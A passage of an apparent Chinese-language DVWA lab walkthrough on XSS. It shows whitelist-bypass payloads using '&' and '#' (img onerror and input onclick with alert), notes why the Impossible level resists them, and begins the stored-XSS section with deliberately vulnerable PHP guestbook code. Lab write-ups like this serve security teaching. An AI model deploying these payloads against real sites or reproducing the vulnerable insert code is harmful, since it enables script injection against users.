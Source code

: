 ```php
}

?>
```

使用了白名单模式，如果`default`的值不为”French”、”English”、”German”、”Spanish”的话就重置URL为:`?default=English` ，这里只是对 default 的变量进行了过滤。

可以使用`&`连接另一个自定义变量来Bypass

```none
?default=English&a=</option></select><img src=x onerror=alert('XSS')>
?default=English&a=<input onclick=alert('XSS') />
```

也可以使用`#`来Bypass

```none
?default=English#</option></select><img src=x onerror=alert('XSS')>
?default=English#<input onclick=alert('XSS') />
```

### Impossible

```php
# For the impossible level, don't decode the querystring
$decodeURI = "decodeURI";
if ($vulnerabilityFile == 'impossible.php') {
    $decodeURI = "";
}
```

`Impossible` 级别直接不对我们的输入参数进行 URL 解码了，这样会导致标签失效，从而无法XSS

## 存储型XSS  

### Low

```php
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```